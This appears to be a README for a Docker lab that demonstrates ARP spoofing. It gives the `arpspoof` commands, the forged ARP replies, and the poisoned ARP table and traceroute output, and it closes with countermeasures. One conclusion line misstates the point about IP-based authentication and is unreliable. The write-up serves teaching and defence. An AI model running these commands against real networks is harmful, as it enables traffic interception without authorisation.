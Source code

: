 # Spoofing

## Content
- [Spoofing](#spoofing)
  - [Content](#content)
  - [Work Environment](#work-environment)
  - [Work Process](#work-process)
    - [arpspoof](#arpspoof)
    - [How to run](#how-to-run)
    - [Result](#result)
  - [Interpretation](#interpretation)
  - [Conclusion](#conclusion)

## Work Environment
The work environment is consisted of:
- three services
  - machine_1:
    - purpose: connect to machine_2, preview traceroute
    - tools: `traceroute`
    - ip: 10.10.10.2
  - machine_2:
    - ip: 10.10.10.3
  - pirate:
    - purpose: execute Arp Spoofing attack
    - tools: `arpspoof`
    - ip: 10.10.10.4
- log file
  - `./log/output.log`
- environment configuration in `.env` contains:
  - ip addresses configuration
  - commands to execute for machine_1 and pirate
  - paths for script for log file and script file
- `goal.bash`: script to execute machine_1 and pirate commands. (_be sure that goal.bash is executable_)
- `docker-compose.yml` configuration
  

## Work Process
### arpspoof
> arpspoof mounts an ARP spoofing attack against a host on the local network. This results in traffic from the attacked host to the default gateway (and all non-LAN hosts) and back going through the local computer and can thus be captured with tools like Wireshark. arpspoof will also forward this traffic, so Windows does NOT have to be configured as a router. [github/alandau]

### How to run
- execute docker-compose: `docker-compose up`
- in both `pirate` and `machine_1`, we execute `goal.bash` wich will execute the sequence of commands inside `.env` file
  - `docker exec -it machine_1 goal.bash`
  - `docker exec -it pirate goal.bash`


### Result
We'll have as a result:
- machine_1
``` bash
>>> press <enter> to execute (traceroute $IP_MACHINE_2)
traceroute to 10.10.10.3 (10.10.10.3), 30 hops max, 60 byte packets
 1  machine_2.exercice_3_network_ip (10.10.10.3)  0.187 ms  0.060 ms  0.061 ms
>>> press <enter> to execute (arp -a)
machine_2.exercice_3_network_ip (10.10.10.3) at 02:42:0a:0a:0a:03 [ether] on eth0
```
- pirate
``` bash
>>> press <enter> to execute (arpspoof -t $IP_MACHINE_1 $IP_MACHINE_2)
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at
```
- machine_1
``` bash
>>> press <enter> to execute (arp -a)
machine_2.exercice_3_network_ip (10.10.10.3) at 02:42:0a:0a:0a:04 [ether] on eth0
pirate.exercice_3_network_ip (10.10.10.4) at 02:42:0a:0a:0a:04 [ether] on eth0

>>> press <enter> to execute (traceroute $IP_MACHINE_2)
traceroute to 10.10.10.3 (10.10.10.3), 30 hops max, 60 byte packets
 1  pirate.exercice_3_network_ip (10.10.10.4)  0.120 ms  0.060 ms  0.048ms
 2  machine_2.exercice_3_network_ip (10.10.10.3)  0.079 ms  0.064 ms  0.067 ms
```
- pirate
``` bash
>>> press <enter> to execute (arpspoof -t $IP_MACHINE_2 $IP_MACHINE_1)
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
```

> full log will be stored in [./log/output.log](./log/output.log)


## Interpretation
- After `arpspoof` attack, a new line has been added to the arp table showen insde `machine_1` 
  - `pirate.exercice_3_network_ip (10.10.10.4) at 02:42:0a:0a:0a:04 [ether] on eth0`
  - The mac address of the target `machine_1` has been changed from `02:42:0a:0a:0a:03` to `02:42:0a:0a:0a:04` which is the mac adress of the pirate.
- When executing traceroute to `machine_2`, a new line has been added
  -  `1  pirate.exercice_3_network_ip (10.10.10.4)  0.120 ms  0.060 ms  0.048ms`
  -  The requesets to `machine_2` will be recieved by `pirate`
- In the end, we send `arpspoof` attack to `machine_2`




## Conclusion
- The attack may have strong impact if it is combined with `Dos` attack to prevent any probabilty of connection from the target machine we want to contact
- We should consider only ip address as the unique method for authentication.
- As counter measurment, we have to use other anti-arp solutions like:
  - DHCP snopping
  - cisco..
  - Xarp,.. 



[github/alandau]: https://github.com/alandau/arpspoof